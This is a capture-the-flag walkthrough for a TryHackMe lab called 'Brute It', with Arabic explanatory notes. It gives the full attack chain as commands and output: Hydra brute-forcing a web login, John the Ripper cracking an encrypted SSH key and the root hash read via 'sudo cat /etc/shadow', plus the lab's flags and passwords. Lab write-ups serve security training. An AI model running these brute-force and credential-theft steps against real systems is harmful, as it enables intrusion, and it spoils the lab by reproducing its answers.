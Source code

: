 # Brute It

## ``Nmap``

```bash
nmap -sCV 10.10.135.215
```


```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-16 23:16 EDT
Nmap scan report for 10.10.153.203
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
                                                                                                
```

## ``Gobuster``

```
gobuster dir -u http://10.10.153.203/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.153.203/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://10.10.153.203/admin/]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 278]
Progress: 4744 / 4745 (99.98%)
===============================================================
Finished
===============================================================
```


```
http://10.10.153.203/admin
```

![image](https://github.com/user-attachments/assets/e5a20a0e-3094-4557-8b14-caa3a90d0c3b)

![image](https://github.com/user-attachments/assets/8f3d153d-bd0d-4a6c-b7fd-457bc040c4e7)


## ``Hydra``

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.153.203 http-post-form "/admin:username=^USER^&password=^PASS^:Invalid"
```

passowrd

```
xavier
```

![image](https://github.com/user-attachments/assets/115d6bde-e617-4e15-843e-56e18aa16c91)

## ``crack rsa key``

make ``id_rsa`` file:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----
```



```
ssh2john id_rsa > rsa_hash.txt
```

```
john rsa_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
john rsa_hash.txt --show
```

![image](https://github.com/user-attachments/assets/a26152ae-6aee-43d3-b4e6-287679b1e14a)


```
rockinroll
```

* <details>

    
    
    📌 ليه المفتاح الخاص عليه Passphrase؟
    عشان لو المفتاح الخاص اتسرب (مثلاً حد وصلك مفتاح id_rsa من السيرفر)، ما يقدرش يستخدمه على طول. بيكون عليه طبقة حماية إضافية:
    
       * المفتاح متشفر (encrypted private key)
        
       * والتشفير ده بيتم بحماية بكلمة سر (passphrase)
        
       * عشان كده لما تيجي تستخدمه بـ ssh بيطلب منك passphrase
    
    
    ## 📌 ايه اللي بنعمله ب John The Ripper؟
       - إحنا مش بنحاول نكسر المفتاح نفسه (لأن كسر RSA key صعب جدًا ومستحيل عمليًا في الوقت الحالي لو المفتاح حجمه كبير).
    
    إحنا بنعمل:
    ➡ نحاول نكسر الـ passphrase اللي بيحمي المفتاح.
    
    
    
    ---
    
    🔑 مثال عملي
    مفتاح بدون passphrase
    ```
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQE...
    ```
    مفتاح عليه passphrase
    ```
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,3F2A1C3D4B5A6C7D8E9F0123456789AB
    MIIEpAIBAAKCAQE...
    ```
    أو
    
    ```
    -----BEGIN ENCRYPTED PRIVATE KEY-----
    MIIE6TAbBgkqhkiG9w0BBQMwDgQIYcbHcVg...
    ```
    
    
      
  </details>








## ``ssh``

```
chmod 600 id_rsa
```

```
ssh -i id_rsa john@10.10.153.203
```

![image](https://github.com/user-attachments/assets/d1d3d120-5613-4a68-817f-6c526faf0859)


user.txt

```
THM{a_password_is_not_a_barrier}
```

## ``priv esc``

```
sudo -l 
```

![image](https://github.com/user-attachments/assets/0554078a-8bc5-49da-96fd-c468a8b7077d)

![image](https://github.com/user-attachments/assets/ca048a2c-0c57-405d-89f6-85761dc8ab78)

```
sudo cat /etc/shadow
```

```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```

```
echo 'root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::' > hashes.txt
```


```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

```
john --show hashes.txt
```

```

root:football:::::::

1 password hash cracked, 0 left
```

![image](https://github.com/user-attachments/assets/c947f52f-c0b2-4d9e-b9cb-9c4b9514e304)

root.txt

```
THM{pr1v1l3g3_3sc4l4t10n}
```


